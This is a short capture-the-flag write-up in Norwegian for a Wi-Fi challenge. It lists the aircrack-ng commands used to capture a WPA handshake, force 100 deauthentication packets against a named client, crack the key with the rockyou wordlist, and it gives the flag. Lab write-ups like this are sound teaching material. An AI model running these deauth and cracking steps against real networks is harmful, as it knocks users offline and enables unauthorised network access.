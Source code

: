 # Taskname
> Author: Solli

## Challenge

## Solution

BSSID (MAC til AP):
22:02:71:4E:75:CF

Klien som er koblet til (stemmer ikke med onsite):
26:18:63:E4:4C:02

Statisk channel i bruk:
2

Start network monitoring mode:
```
sudo airmon-ng check kill
sudo airmon-ng start
```

Lytt etter pakker:
```
sudo airodump-ng --bssid 22:02:71:4E:75:CF -w psk wlan0mon -c 2
```

Force re-auth:
```
sudo aireplay-ng --deauth 100 -a 22:02:71:4E:75:CF -c 26:18:63:E4:4C:02 wlan0mon
```

Kan crackes med:
```
aircrack-ng -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -b 22:02:71:4E:75:CF psk-02.cap
```

Kan så stoppe monitor mode:
```
sudo airmon-ng stop
```

UIACTF{especial}